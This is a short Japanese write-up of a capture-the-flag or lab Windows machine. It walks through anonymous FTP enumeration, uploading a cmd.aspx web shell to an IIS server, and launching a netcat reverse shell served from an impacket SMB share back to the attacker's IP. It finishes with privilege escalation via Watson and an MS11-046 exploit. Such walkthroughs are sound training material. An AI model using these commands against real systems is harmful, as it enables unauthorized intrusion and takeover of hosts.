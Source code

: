 # Enumeration
- port 21 で anonymous login が許可された ftp
  - ログインすると、welcome.png がある
    ```
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    03-18-17  02:06AM       <DIR>          aspnet_client
    03-17-17  05:37PM                  689 iisstart.htm
    03-17-17  05:37PM               184946 welcome.png
    226 Transfer complete.
    ```
  - ここにファイルを置くとブラウザ等で閲覧可能
- port 80 で Microsoft IIS httpd 7.5
  - HTTP ヘッダを確認すると `X-powered-by: ASP.NET`
  - Web shell のアップロードにより shell が取れそう

# Eploitation
- `cmd.aspx` を置く
  - `ftp> put ~/tools/wordlists/SecLists/Web-Shells/FuzzDB/cmd.aspx cmd.aspx`
- `nc.exe` を使って reverse shell を張る
  - SMBを使えば、わざわざ置かなくてもいい
  - `sudo python3 ~/tools/impacket/examples/smbserver.py share .` でsmbサーバを立てる
  - `http://$IP/cmd.aspx` にアクセス
  - `\\10.10.14.23\share\nc.exe -e cmd.exe 10.10.14.23 12345`

# Privesc
- Watson を使ってパッチ未適用に起因する脆弱性を探す
- SMB上に `Watson.exe` をおいてターゲット上で実行
- MS11-046
- https://github.com/abatchy17/WindowsExploits からコードをとってきて攻撃、rootをとる
